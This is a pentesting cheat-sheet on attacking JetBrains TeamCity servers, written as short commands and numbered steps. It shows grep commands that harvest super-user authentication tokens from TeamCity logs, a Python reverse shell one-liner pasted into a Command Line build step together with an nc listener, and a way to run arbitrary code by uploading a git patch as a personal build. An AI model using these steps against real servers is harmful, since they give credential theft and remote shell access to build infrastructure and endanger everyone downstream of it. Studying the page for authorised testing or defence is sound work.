 ```yaml
---
title: TeamCity Pentesting
description: TeamCity is a build management and continuous integration server from JetBrains.
tags:
    - Web
refs:
    - https://www.jetbrains.com/help/teamcity/teamcity-data-directory.html
date: 2023-07-19
draft: false
---
```


## Common Directories

```sh
/admin
/admin/admin.html
```

<br />

## Interesting Files in Systems

```sh
TeamCity/conf/teamcity-startup.propertie
.BuildServer/system
```

<br />

## Find Super User Authentication Tokens

If we find a super user authentication token, we can login as super user using the token.

```sh
grep -rni 'authentication token' TeamCity/logs
grep -rni 'Super user authentication token' TeamCity/logs
grep -rni 'token' TeamCity/logs
```

After retrieving, we can login as **administrator** by **entering the token in the password field and empty the username**.

<br />

## Arbitrary Command Execution by Custom Script

1. Login as **admin user**.
2. Create a new project in admin dashboard.
3. Click **"Manual"** tab and fill required fields.
4. A new project is created.
5. In the project home, create a **Build Configurations**.
6. In the build configuration page, click **"Build Steps"** on the left menus.
7. Add build step.
8. Select **"Command Line"** in **Runner type**.
9. Put a Python reverse shell script in the **"Custom script"**.
    
    ```sh
    export RHOST="<local-ip>";export RPORT=<local-port>;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
    ```
    
10. Start listener in local machine.
    
    ```bash
    nc -lvnp 4444
    ```
    
11. Click **"Run"** button in the build page.
12. We should get a shell in terminal.

<br />

## Arbitrary Command Execution by Diff Build

If we can modify a building script, we can execute arbitrary script by uploading a git patch file.  
First, modify the script to our desired code.

```bash
cd /path/to/repository
vim example.ps
git diff > patch
```

Then go to the build configuration page, and open the **"Run Custom Build"** at the right of the Run button.  
In General section, check **"run as personal build"** and upload the patch file which was generated above.  
Now click **"Run Build"**. Our arbitrary code will be executed when building.